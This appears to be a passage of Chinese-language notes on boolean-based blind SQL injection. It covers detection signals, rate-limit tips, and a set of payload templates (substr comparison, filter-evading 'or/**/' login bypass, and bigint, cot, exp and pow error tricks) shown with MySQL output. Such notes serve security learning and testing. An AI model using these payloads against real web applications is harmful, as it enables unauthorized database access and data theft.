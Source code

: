 - 回显不同（内容、长度）
- HTTP响应状态码不同
- HTTP响应头变化（重定向、设置cookie）
- 基于错误的布尔注入

### 注意点

- 有时候报错注入就足够了
- 如果Timeout了，大概率是因为访问频率过高被ban了

### payload格式

本质就是某个查询语句的回显结果是1还是0的区别，但其嵌入到不同的语句会看上去有不同的格式

- ```
  if(ascii(substr(" +payload+",{0},1))={1},1,2) #substr式
  ```

- ```
  admin'or/**/password>'1'                      #比较式（用于                                     过滤太多的情况，暂无脚本）
  1^(password>'1')                              #比较式的一个变种
  ```

- ```
  select 1+~0;                              #bigint溢出式,1为布尔点
  ```

- ```
  cot(1)                                      #1为布尔点 余切
   
  mysql> select cot(1);
  +--------------------+
  | cot(1)             |
  +--------------------+
  | 0.6420926159343306 |
  +--------------------+
  1 row in set (0.00 sec)
   
  mysql> select cot(0);
  ERROR 1690 (22003): DOUBLE value is out of range in 'cot(0)'
  ```

- **exp：**e的指数

```sql
select exp(999*1);--ERROR 1690 (22003): DOUBLE value is out of range in 'exp((999 * 1))'
select exp(999*0);--1
```

- **pow：**乘方

```text
select pow(1,9999);
```
